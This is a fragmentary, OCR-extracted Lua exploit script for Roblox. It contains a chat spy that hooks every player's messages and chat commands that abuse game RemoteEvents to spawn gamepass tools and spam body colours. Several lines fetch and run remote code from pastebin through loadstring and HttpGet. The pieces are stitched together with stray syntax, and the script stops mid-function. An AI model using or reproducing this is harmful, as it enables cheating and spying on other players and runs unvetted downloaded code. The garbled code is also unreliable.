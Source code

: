for _,p in ipairs(Players:GetPlayers()) do
	p.Chatted:Connect(function(msg) onChatted(p,msg) end)
end
Players.PlayerAdded:Connect(function(p)
	p.Chatted:Connect(function(msg) onChatted(p,msg) end)
end)
privateProperties.Text = "{SPY "..(enabled and "EN" or "DIS").."ABLED}"
StarterGui:SetCore("ChatMakeSystemMessage",privateProperties)
if not player.PlayerGui:FindFirstChild("Chat") then wait(3) end
local chatFrame = player.PlayerGui.Chat.Frame
chatFrame.ChatChannelParentFrame.Visible = true
chatFrame.ChatBarParentFrame.Position = chatFrame.ChatChannelParentFrame.Position+UDim2.new(UDim.new(),chatFrame.ChatChannelParentFrame.Size.Y)
    end    
        if msg:lower() == "^dom" then
        game.workspace.GiveTool:FireServer("IDFORSPAWNER", "PompousTheCloud")
        wait()
        loadstring(game:HttpGet("https://pastebin.com/raw/m2BMpbG4"))()
    end
if string.sub(msg,1,6) == ("lnvalid")then
    while true do 
        for i = 0,1,0.1 do 
            game:GetService("ReplicatedStorage").AvatarEditor.BodyColorEvent:FireServer(BrickColor.new(Color3.fromHSV(i,1,1)))    
            wait(.1)
        end    
    end
end
if string.sub(msg,1,2) == ("re")then
    game:GetService("Players").LocalPlayer.Character.Humanoid:ChangeState(15)
end
if string.sub(msg,1,3) == ("'rj")then
game:GetService("TeleportService"):Teleport(game.PlaceId, 
game:GetService("Players").LocalPlayer)
end
local gamepassId = IDFORSPAWNER

local RobloxianLife = loadstring(game:HttpGetAsync("https://pastebin.com/raw/HTF0vRHF"))()
local CommandApi = loadstring(game:HttpGetAsync("https://pastebin.com/raw/3mHL7pKv"))()
local players = game:GetService("Players")
local localPlayer = players.localPlayer

RobloxianLife:Initialize(gamepassId)

local function strStarts(String,Start)
    return string.sub(String,1,string.len(Start))==Start
end

local function getPlayerByName(name)
    local plrs = {}

    if name == "me" then
        table.insert(plrs, localPlayer)
        return plrs
    elseif name == "others" then
        for i,v in pairs(players:GetPlayers()) do
            if v.Name ~= localPlayer.Name then
                table.insert(plrs, v)
            end
        end
        return plrs
    elseif name == "all" then
        for i,v in pairs(players:GetPlayers()) do
            table.insert(plrs, v)
        end
        return plrs